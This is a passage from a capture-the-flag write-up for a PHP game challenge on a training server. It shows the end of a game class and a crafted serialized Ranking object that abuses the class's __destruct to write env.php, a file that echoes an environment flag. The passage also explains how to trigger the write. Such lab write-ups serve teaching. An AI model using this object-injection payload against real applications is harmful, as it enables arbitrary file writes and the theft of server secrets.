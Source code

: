 ```php
        }
      }

      if ($moved){
          array_push($this->actions,$direction);
          $this->randomTile();
      }
      $r = new Ranking();
      $r->updateRanking($this);
      return $this->gameBoard;
  }
}
?> 
```
In the `__destruct` of the `Ranking` class a file is created if `changed` is true. The content of the file is the `ranking` variable.
If we craft the object to upload in this way:

```
O:7:"Ranking":3:{s:7:"ranking";s:28:"<?php echo $_ENV['FLAG']; ?>";s:7:"changed";b:1;s:4:"path";s:15:"./games/env.php";}
```
We can create a file called `env.php`. To do so, after the fake replay as been uploaded, we uploaded it another time so the previous reference is lost and the destruct is called, creating the file.
By visiting `http://1024.training.jinblack.it/games/env.php` we obtain the flag. 
